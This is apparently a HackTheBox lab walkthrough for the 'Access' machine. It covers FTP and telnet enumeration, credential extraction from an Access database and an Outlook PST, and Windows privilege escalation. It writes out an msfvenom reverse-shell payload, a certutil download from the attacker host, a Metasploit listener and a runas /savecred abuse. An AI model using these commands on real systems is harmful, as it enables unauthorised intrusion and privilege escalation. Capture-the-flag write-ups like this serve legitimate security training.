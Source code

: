 # **Access - HackTheBox Lab**

**Date:** 2024-12-08  
**Target:** `10.10.10.98`  

## **Scope**

The goal is to enumerate the target, identify vulnerabilities, gain access, and escalate privileges.

---

## **Gaining Access**

### **Ports Enumeration**

1. **Initial Full Port Scan**  
   I ran a full TCP port scan to identify all open ports:
   ```bash
   nmap -A -p- -iL target -v
   ```
   Results revealed three open ports:  
   - **Port 21:** FTP (Microsoft ftpd)  
   - **Port 23:** Telnet  
   - **Port 80:** HTTP (Microsoft IIS httpd 7.5)

2. **Targeted Port Scan**  
   To gather detailed information, I performed an aggressive scan against the identified ports:
   ```bash
   nmap -A -p21,23,80 -iL target -v -oN target_ports.txt
   ```
   Key findings included:  
   - FTP allows **anonymous login** but restricts directory listing.
   - HTTP server runs **Microsoft IIS 7.5**, hosting a simple web page.
   - Telnet prompts for login credentials.

---

### **HTTP Enumeration**

1. **Web Server Overview**  
   The HTTP server displayed a static page with the title "MegaCorp." Server headers identified it as **Microsoft IIS 7.5** running ASP.NET.

2. **Search for Vulnerabilities**  
   Using `searchsploit`, I looked for potential exploits:
   ```bash
   searchsploit iis 7.5
   ```
   No critical vulnerabilities directly applicable to the setup were identified.

3. **Directory Brute-Forcing with `ffuf`**  
   A brute-force directory scan using `ffuf` yielded no additional paths.

4. **Nikto Scan**  
   A `nikto` scan highlighted several informational findings, including:
   - Missing `X-Frame-Options` and `X-Content-Type-Options` headers.
   - Supported HTTP methods: `OPTIONS, TRACE, GET, HEAD, POST`.

---

### **Telnet Enumeration**

1. **Login Prompt**  
   Attempting to connect:
   ```bash
   telnet 10.10.10.98 23
   ```
   This revealed a **Microsoft Telnet Service** requiring credentials.

2. **Nmap Telnet Script Scan**  
   Using Nmap scripts for Telnet:
   ```bash
   nmap -n -sV -Pn --script "*telnet* and safe" -p 23 $(cat target)
   ```
   The scan revealed additional information:
   - **Host Name:** ACCESS

---

### **FTP Enumeration**

1. **Access FTP Server**  
   Anonymous login was enabled:
   ```bash
   ftp -a 10.10.10.98
   ```
   Inside the FTP server, I discovered two files:  
   - `backup.mdb` (Microsoft Access Database)  
   - `Access Control.zip` (Password-protected ZIP file)

2. **Download Files**  
   To download the files:
   ```bash
   bin
   get backup.mdb
   get "Access Control.zip"
   ```

   ![image](https://github.com/user-attachments/assets/95c46133-1ab3-4af9-b701-65e5696af23f)

3. **Analyze Database File**  
   Using `mdb-tools`, I extracted tables from the `.mdb` file:
   ```bash
   mdb-tables backup.mdb | sed 's/ /\n/g' > tables
   ```
   The `auth_user` table contained credentials, which I exported:
   ```bash
   mdb-export backup.mdb auth_user > auth_user.csv
   ```
   
   ![image](https://github.com/user-attachments/assets/b49f3d06-3df1-4b63-900d-96555d817181)

4. **Decrypt ZIP File**  
   One password from the `auth_user` table successfully decrypted `Access Control.zip`:
   ```bash
   7z x "Access Control.zip"
   ```
   This extracted a `.pst` file (Microsoft Outlook Data File).

5. **Converted pst file to mbox**     
   To convert a pst file to mbox I ran:
   ```bash
   readpst "Access Control.pst"
   ```
6. **Gain Access**     
   Reading the mbox file I found the user credential.
   I used telnet to test them and I gain access on the target machine, obtaining the user flag.

7. **Automate**  
   You can retrive the user credential easily by running the following script: [access.sh](https://github.com/spread0942/htb_walkthrough/blob/main/machines/access/access.sh)
   ```bash
   wget https://raw.githubusercontent.com/spread0942/htb_walkthrough/refs/heads/main/machines/access/access.sh
   chmod 755 access.sh
   ./access.sh 10.10.10.98
   ```

---

## **Privilege Escalation**

1. **System Information**  
   Running `systeminfo`:
   ```cmd
   systeminfo
   ```
   Identified:
   - **OS:** Windows Server 2008 R2 Standard  
   - **Hotfixes:** Multiple missing patches (potential vulnerabilities).  

2. **Exploit Preparation**  
   I notice Administrative credential saved on the target machine by running:
   ```cmd
   cmdkey /list
   ```
   
   ![image](https://github.com/user-attachments/assets/952e395b-1361-4ff0-a317-59b06b60500a)

   I prepared a reverse shell payload using `msfvenom`:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=2323 -f exe > p.exe
   ```

3. **File Transfer**  
   Using `certutil`, I transferred the payload to the victim machine:
   ```cmd
   cd %TEMP%
   certutil -urlcache -f "http://10.10.16.9:9878/p.exe" p.exe
   ```

4. **Open Listener**  
   On my local machine, I started a listener with `msfconsole`:
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 10.10.16.9
   set LPORT 2323
   run
   ```
5. **Execute Payload**  
   I used stored credentials to run the payload with administrative privileges:
   ```cmd
   runas /savecred /user:ACCESS\Administrator p.exe
   ```
   I got the shell and the root flag.

---

## **Resources**

- [Kali - MDB Tools](https://www.kali.org/tools/mdbtools/)  
- [Kali - libpst](https://www.kali.org/tools/libpst/)  
- [Windows Privilege Escalation Notes](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/StoredCredentialsRunas.md)

---
